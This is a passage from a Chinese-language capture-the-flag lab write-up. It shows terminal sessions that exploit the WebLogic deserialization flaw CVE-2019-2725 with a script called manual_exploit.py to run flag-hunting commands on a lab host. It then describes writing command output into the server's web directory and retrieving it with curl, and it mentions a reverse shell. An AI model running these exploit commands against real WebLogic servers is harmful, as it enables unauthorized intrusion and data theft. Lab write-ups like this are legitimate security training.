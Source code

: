 **Flag搜索结果**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "find / -name '*flag*' 2>/dev/null"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: find / -name '*flag*' 2>/dev/null
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
                                                                                                                                                       
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "cat /flag /tmp/flag* /flag.txt 2>/dev/null || echo 'Flag not found in common locations'"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: cat /flag /tmp/flag* /flag.txt 2>/dev/null || echo 'Flag not found in common locations'
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
                                                                                                                                                       
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "grep -r 'flag' /tmp /var /home 2>/dev/null | head -10"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: grep -r 'flag' /tmp /var /home 2>/dev/null | head -10
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
```

**Flag获取分析**:**命令输出限制**

- 虽然所有命令都成功触发了反序列化漏洞（HTTP 500状态码），但命令的输出结果没有直接在HTTP响应中返回
- 这是CVE-2019-2725的一个特点：ProcessBuilder执行命令但不会将输出回显到HTTP响应中
- 需要使用其他技术来获取命令执行结果，如反向shell或文件写入

**替代获取方法**:

根据[Oracle官方安全公告](https://www.oracle.com/security-alerts/alert-cve-2019-2725.html)和[Exploit-DB上的CVE-2019-2725利用代码](https://www.exploit-db.com/exploits/46780)，我们可以使用更高级的payload来获取命令输出：

**方法一：文件写入到Web目录**

```bash
# 尝试将flag写入Web可访问目录
python3 manual_exploit.py http://10.37.133.3:7001 "find / -name '*flag*' 2>/dev/null > /u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_user/console/console.war/flag_result.txt"

# 然后通过Web访问获取结果
curl http://10.37.133.3:7001/console/flag_result.txt
```

